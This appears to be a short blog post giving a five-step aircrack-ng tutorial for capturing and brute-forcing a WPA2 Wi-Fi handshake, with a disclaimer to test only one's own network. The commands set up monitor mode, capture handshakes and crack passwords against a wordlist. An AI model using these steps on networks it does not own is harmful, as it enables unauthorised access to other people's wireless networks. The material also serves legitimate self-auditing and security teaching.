 ```yaml
---
layout: post
title: "Crack WPA2 WLAN Password with aircrack-ng"
fav: 1
---
```


> **Disclaimer**: This might be illegal in some countries. Perform this attack on your own network only!

1. Put WLAN device into monitoring mode:
   ```bash
   airmon-ng start wlan0
   ```
2. Scan for access points:
   ```bash
   airodump-ng wlan0mon
   ```
3. Capture WPA2 handshake (use `<$BSSID>` and `<$CHANNEL>` from the previous scan):
   ```bash
   airodump-ng -c <$CHANNEL> --bssid <$BSSID> -w <$CAPTURE_FILE> wlan0mon
   ```
4. Wait until airodump says '*WPA handshake: ...*' in the upper right of the terminal, then press `Ctrl+c` to stop scanning.
5. Bruteforce the WPA2 handshake with aircrack-ng and a wordlist:
   ```bash
   aircrack-ng <$CAPTURE_FILE-01>.cap  -w <$WORDLIST_FILE>
   ```

---
